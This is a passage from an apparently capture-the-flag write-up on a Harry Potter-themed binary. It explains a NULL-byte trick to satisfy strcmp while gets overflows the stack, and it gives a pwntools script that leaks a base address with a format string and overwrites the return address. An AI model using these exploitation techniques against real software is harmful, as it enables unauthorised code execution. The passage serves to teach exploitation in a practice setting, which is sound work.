 Otherwise the programm will exit and never reaches the `ret` instruction:

```C++
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
```

So how can we write more than just "Expelliarmus" in `read_buf` through `gets`, but at the same time trick `strcmp` into thinking it's really only "Expelliarmus" ? 

**NULL-Terminated Strings.**

In C every string is terminated by a NULL character `0x00`.
`strcmp` stops when encountering a NULL character, but `gets` stops only at a newline `\n`.
So we can craft our final payload like this:

```Python3
payload = "Expelliarmus\x00" + "A"*251 + WINgardium_leviosa_location
```

cause "Expelliarmus\x00" is `13` bytes long, the padding to the return address is `0xff+8(rbp)-13 = 251` bytes long.

Let's put this all together in a python3 programm. I am using pwntools for communication with the server:

```Python3
from pwn import *
import struct

p = remote('127.0.0.1', 1024)
print(p.recvline()) # Enter your witch name:\n

base_address_leak_payload = b'%39$p'
p.sendline(base_address_leak_payload)

print(p.recvline().decode('utf-8')) # ┌───────────────────────┐
print(p.recvline().decode('utf-8')) # │ You are a Hufflepuff! │
print(p.recvline().decode('utf-8')) # └───────────────────────┘

memory_leak = p.recvline().split(b' ') # [0x?????????????b21, 'enter', 'your', 'magic', 'spell:\n']
ret_addr = int(memory_leak[0], 16) # converting from string to hex
base_address = ret_addr - 0xb21
print('base_address: {0}'.format(hex(base_address)))

WINgardium_leviosa_location = struct.pack('Q', base_address + 0x9ec) # pack in 64-bits alligned
payload = "Expelliarmus\x00" + "A"*251 + WINgardium_leviosa_location

input('attach gdb')
p.sendline(payload)
p.interactive()
```

When we run this with gdb attached we can see our return address to `WINgardium_leviosa` is successfully injected:
